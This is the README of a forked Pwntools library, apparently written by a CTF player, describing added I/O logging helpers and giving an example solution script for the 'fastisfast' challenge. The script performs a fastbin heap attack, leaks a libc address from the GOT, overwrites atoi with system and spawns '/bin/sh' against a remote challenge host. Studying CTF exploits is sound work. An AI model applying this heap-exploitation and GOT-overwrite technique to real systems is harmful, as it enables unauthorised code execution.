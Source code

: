 # Pwntools - CTF toolkit

Pwntools is a CTF framework and exploit development library. Written in Python, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.

# Forked and modified

Modified to optimize I/O display. Helps a lot on `reviewing the I/O sequence`.

Modified in `pwnlib\tubes\tube.py`.



`Recieved (useful/Junk) data` will be shown. `Sent data` would also be displayed. Debug info by the exploit writer would dispaly in different `colors`. 

Correctly use of this helps a lot to clear the mind. 

# Available new API

7 APIs available to interact with pwn challenges. These seven APIs seems to be enough for most situations of send data and leak data in CTF.

Fairly easy and simple. So this part will be Introduced as  source code:

```
    def ManualAttach(self):

        raw_input('\33[1;31;40m[+] Debug: Attach GDB.\33[0m')

    def Log(self,String):

        print '\33[1;31;40m'+'[+] '+ String+'\33[0m'

    def LogRecvUntil(self,String):

        print self.recvuntil(String)

    def LogRecvNoBlocking(self):

        print self.recv()

    def LogRecv(self,Len):

        Data = self.recv(Len)

        print Data

        return Data

    def LogSend(self,Data):

        print Data

        self.send(Data)

    def LogSendAndRecv(self,Data):

        print Data

        self.send(Data)

        print self.recv()

```



# Example

Writeup for `fastisfast`. As a fastbin attack challenge.

```
from pwn import *

io = remote('202.112.51.217',34123)
#io = process('./fastIsfast')

io.LogRecvNoBlocking()

for i in range(0,46):
	io.LogSendAndRecv('1\n')

io.LogSendAndRecv('3\n')

io.LogSendAndRecv('2\n')
G_V = 0x602098
io.LogSendAndRecv(p64(G_V)+'\n')
io.LogSendAndRecv('1\n')
io.LogSendAndRecv(p64(0x30)+'\n')

#malloc 0x602098 as w/r
io.LogSendAndRecv('1\n')
io.LogSendAndRecv('1\n')
#read
io.LogSendAndRecv('4\n')
#index by 0x602098


def ReadPrimitive(Address):
	io.LogSendAndRecv('2\n')
	io.LogSendAndRecv(p64(Address)+'\n')
	io.LogSendAndRecv('65\n')
	io.LogSendAndRecv('AAAABBBB\n')	

	io.LogSend('4\n')
	io.LogRecvUntil('Name : ')
	data = io.LogRecv(6)

	value = u64(data+'\x00\x00')
	
	io.LogRecvNoBlocking()
	return value

ATOI_GOT = 0x602050
ATOI_LIBC = ReadPrimitive(ATOI_GOT)
io.Log('Leaked address of atoi@libc: '+hex(ATOI_LIBC)+'.')

#libc-2.19
#SYSTEM_LIBC = ATOI_LIBC -0x39EA0 + 0x46590
#Log('Leaked address of system@libc: '+hex(SYSTEM_LIBC)+'.')

#libc-2.23
SYSTEM_LIBC = ATOI_LIBC - 0x36E80 + 0x45390
	
io.LogSendAndRecv('2\n')
io.ManualAttach()
io.LogSendAndRecv(p64(SYSTEM_LIBC) +'\n')
io.LogSendAndRecv('65\n')
io.LogSendAndRecv('AAAABBBB\n')
io.LogSend('/bin/sh')


io.interactive()

